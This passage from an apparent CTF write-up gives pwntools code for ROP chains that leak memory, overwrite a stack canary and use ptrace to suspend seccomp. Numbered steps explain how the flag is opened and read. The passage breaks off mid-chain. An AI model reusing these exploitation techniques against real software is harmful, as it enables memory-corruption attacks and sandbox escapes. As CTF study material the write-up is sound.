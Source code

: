 ```python
payload += p64(pop_rsi)
payload += p64(buffer)
payload += p64(pop_rdx_r12)
payload += 2 * p64(100)
payload += p64(pop_rax)
payload += p64(constants.SYS_read)
payload += p64(syscall)

payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rax)
payload += p64(constants.SYS_write)
payload += p64(syscall)

payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(constants.SYS_exit)
payload += p64(syscall)

assert(len(payload) < 0x200)

p.sendlineafter(b'> ',b'0')
p.sendafter(b'> ',payload)
```

Now that we have the leaks we can construct the child ROP chain.

1. Put the location of the flag in our buffer (now that we know the location) followed by padding to the canary (`local_10` (see the Ghidra decomp)), then the canary, and then pad to end of the stack frame.
2. `sleep(1)`.  `clock_nanosleep` is actually called by `sleep`, so we'll just call the libc function.
3. Assuming the `ptrace` syscall went through from the parent, we should be able to `open` the flag.
4. `read` the flag into our buffer.  This section may look a bit confusing and that is because I didn't want to hardcode `7` for the FD (it was `7` locally, stdin/out/err and the pipes were 0-6), so I opted to use a gadget to "move" `rax` (FD returned from `open`) to `rdi`.  Since there was no obvious `mov rdi, rax` gadget I used a `mov qword ptr [rdi], rax` gadget instead and self-modified my own ROP chain; `0xdeadbeef` becomes the FD returned from `open`.
5. `write` the flag from the buffer.  Profit.
6. `exit` (not always required, but with some CTFs, it helps not loose writes at the end).  It's also the polite thing to do.


```python
# parent: rop chain
PTRACE_SEIZE = 0x4206
PTRACE_O_SUSPEND_SECCOMP = (1 << 21)
PTRACE_O_TRACESECCOMP = 0x00000080

payload  = b''
payload += 0x20 * b'A'
if args.REMOTE:
    payload += p64(PTRACE_O_TRACESECCOMP)
else:
    payload += p64(PTRACE_O_SUSPEND_SECCOMP)
payload += (0x98 - len(payload) - 0x10) * b'B'
payload += p64(canary)
payload += (0x98 - len(payload)) * b'C'

payload += p64(pop_rax)
payload += p64(binary.sym.child)
payload += p64(mov_rax_ptr_rax)
payload += p64(pop_rdi)
```